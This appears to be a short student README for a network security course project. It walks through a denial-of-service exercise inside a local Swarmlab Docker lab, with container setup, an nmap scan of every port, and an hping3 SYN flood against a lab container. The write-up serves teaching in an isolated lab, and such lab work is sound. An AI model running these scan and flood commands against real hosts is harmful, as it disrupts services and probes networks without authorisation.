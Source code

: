 # Network & Communication Security Project (DDoS Attack)

DDoS attack performed step by step.

1) First of all we start Swarmlab-hybrid by typing the following 2 commands in terminal

cd swarmlab-hybrid

./start.sh

2) Then we go to http://localhost:3088/ -> Instances -> Container -> Select dummy_service -> Connect -> Run in terminal "docker exec -it dummy_service /bin/sh"

3) After that we proceed inside the terminal by typing the following commands
$ docker exec -it dummy_service /bin/sh
$ ifconfig //(in order to find the inet addr we are looking for , in my case it was 172.21.0.2 )
$ nmap -p- 172.22.0.* //With this command we scan for open ports , in my case it was 3001
$ sudo hping3 -S 172.22.0.2 -p 3001
